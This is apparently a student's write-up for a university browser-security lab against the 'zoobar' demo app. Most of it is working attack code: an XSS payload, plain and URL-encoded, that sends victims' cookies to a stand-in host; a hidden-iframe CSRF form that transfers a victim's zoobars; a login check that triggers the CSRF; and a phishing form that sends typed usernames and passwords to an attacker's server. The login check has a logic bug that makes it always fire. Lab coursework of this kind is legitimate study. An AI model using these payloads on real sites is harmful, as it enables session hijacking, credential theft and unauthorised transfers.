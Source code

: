 ##Browser security

###Exercise 1: Cookie Theft

The payload for the exercise consists from several parts:

    <script>
    document.addEventListener("DOMContentLoaded", theDomHasLoaded, false); //Wait that DOM has loaded in the page so we modify the warning text message class
    function theDomHasLoaded(e) { 
    document.getElementsByClassName("warning")[0].style.visibility = 'hidden'; // this hides the red warning message from the page
    } 
    new Image().src = 'http://example.com/steal.php?cookies=' + encodeURIComponent(document.cookie); //this is the payload to steal the victims cookie
    </script>

Finally we URL encode the whole payload and include it as part of the URL. The payload also requires that we include ""> and </ in the beginning and the end so that the exploit works properly.

    ""><script>document.addEventListener("DOMContentLoaded", theDomHasLoaded, false);function theDomHasLoaded(e) { document.getElementsByClassName("warning")[0].style.visibility = 'hidden';} new Image().src = 'http://example.com/steal.php?cookies=' + encodeURIComponent(document.cookie);</script></
    
localhost:8080/zoobar/index.cgi/users?user=admin%22%22%3e%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%61%64%64%45%76%65%6e%74%4c%69%73%74%65%6e%65%72%28%22%44%4f%4d%43%6f%6e%74%65%6e%74%4c%6f%61%64%65%64%22%2c%20%74%68%65%44%6f%6d%48%61%73%4c%6f%61%64%65%64%2c%20%66%61%6c%73%65%29%3b%66%75%6e%63%74%69%6f%6e%20%74%68%65%44%6f%6d%48%61%73%4c%6f%61%64%65%64%28%65%29%20%7b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%77%61%72%6e%69%6e%67%22%29%5b%30%5d%2e%73%74%79%6c%65%2e%76%69%73%69%62%69%6c%69%74%79%20%3d%20%27%68%69%64%64%65%6e%27%3b%7d%20%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%20%3d%20%27%68%74%74%70%3a%2f%2f%65%78%61%6d%70%6c%65%2e%63%6f%6d%2f%73%74%65%61%6c%2e%70%68%70%3f%63%6f%6f%6b%69%65%73%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e%3c%2f

###Exercise 2: Cross-Site Request Forgery

Below is provided the HTML and JavaScript code for the CSRF attack that will transfer 10 zoobars from the victim to the user 'attacker' and redirect the victim to other site.

    <html>
    <body>
        <form name="csrf" action="http://localhost:8080/zoobar/index.cgi/transfer" method="POST" target="iframe">
            <input type="hidden" name="zoobars" value="10" />
            <input type="hidden" name="recipient" value="attacker" />
        </form>
        <iframe style="display:none" id="iframe" name="iframe" frameborder="0"></iframe>
        <script> 
            document.getElementById("iframe").onload = function() {
                window.location.href = "http://css.csail.mit.edu/6.858/2014/";
            }
            document.forms[0].submit();
        </script>
    </body>
    </html>

###Exercise 3: Side Channels and Phishing

In this exercise we can retrieve the information from the zoobarjs file to see if the user is logged in or not. If user is logged in the file will include information about how many zoobars the user has. We can use this information in conjunction with JavaScript to check if the user, who visits the attackers site is logged in, since we can check if the file returns the amount of zoobars.

    <script src="http://localhost:8080/zoobar/index.cgi/zoobarjs"></script>
    <script> 
    //if user is logged in transfer users zoobar to the attackers account
        var zoobars = myZoobars;
        if (zoobars || true); {
        location.href = "answer-2.html"; //launch the CSRF attack if user is logged in
        }
    </script>

The answer-2.html file must be located in the same folder as the answer-3.html file so that the CSRF attack works as expected.

For intercepting the users credentials following modifications were done to the form HTML code, also some new JavaScript was added:

    <form name="loginform" method="POST" action="http://localhost:8080/zoobar/index.cgi/login" onsubmit="intercept()">
    
    <script>
        function intercept() {
		var username = document.forms[0].elements[0].value;
		var password = document.forms[0].elements[1].value;
		new Image().src = "http://localhost:8888/?username="+username+"&password="+password;
	}
	</script>
	
When the user enters his or her credentials, they will be sent to the attacker and user will be logged in normally.

###Exercise 4: Profile Worm
